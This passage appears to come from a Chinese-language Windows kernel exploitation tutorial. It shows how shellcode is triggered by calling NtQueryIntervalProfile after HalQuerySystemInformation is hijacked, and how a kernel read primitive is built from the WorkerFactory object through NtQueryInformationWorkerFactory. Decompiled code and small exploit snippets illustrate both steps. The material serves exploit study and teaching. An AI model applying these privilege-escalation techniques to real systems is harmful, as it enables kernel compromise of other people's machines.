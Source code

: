  

到这里， 理论上我们只需要触发 HalQuerySystemInformation 调用即可执行我们的 Shellcode 了，如下 (参考 2)：

```
// 调用shellcode 
DWORD Interval; 
MyNtQueryIntervalProfile(2, &Interval);
```

但是为了避免系统崩溃， 在 Shellcode 最后， 我们还需要将原来的 HalQuerySystemInformation 函数恢复回去。

 

那么，如何得到原 HalQuerySystemInformation 的函数地址呢？

#### 读原语

通过上文的介绍， 我们依然利用 WorkerFactory 对象构造读语， 这次我们把目光转移到 NtQueryInformationWorkerFactory 上：

```
NTSTATUS __stdcall NtQueryInformationWorkerFactory(void *a1, int a2, ULONG a3, int a4, _DWORD *a5) 
{ 
  if ( PreviousMode )
  {
     v7 = (char *)a3;
  }
  else
  {
    v7 = (char *)a3;
  }
  ………… 
  result = ObReferenceObjectByHandle( 
             a1, 
             8u, 
             ExpWorkerFactoryObjectType, 
             AccessMode[0], 
             (PVOID *)&WorkerFactoryObject, 
             0); 
  if ( result >= 0 ) 
  { 
    ………… 
    v10 = (char *)WorkerFactoryObject; 
    ………… 
    *(_DWORD *)v16 = *((_DWORD *)v10 + 2); 
    ………… 
    // 0x19 * sizeof(DWORD *) = 0x64 
    *(_DWORD *)&v16[0x50] = *(_DWORD *)(*((_DWORD *)v10 + 0x19) + 0xB4); // 读原语构造点 
    ………… 
    // 赋值0x60大小的内存
    qmemcpy(v7, v16, 0x60u);
  } 
}
```

可以看到， 该函数中， 有一个解引用， 会将 WorkerFactoryObject+0x64 处的值 + 0xB4 后， 再解引用， 赋值到返回内容的 0x50 位置处， 最终返回的内存大小为 0x60。这里需要注意上面的 v10 是 DWORD _， 所以 (DWORD_ )v10 + 0x19 等于 (CHAR *)v10 + 0x64。
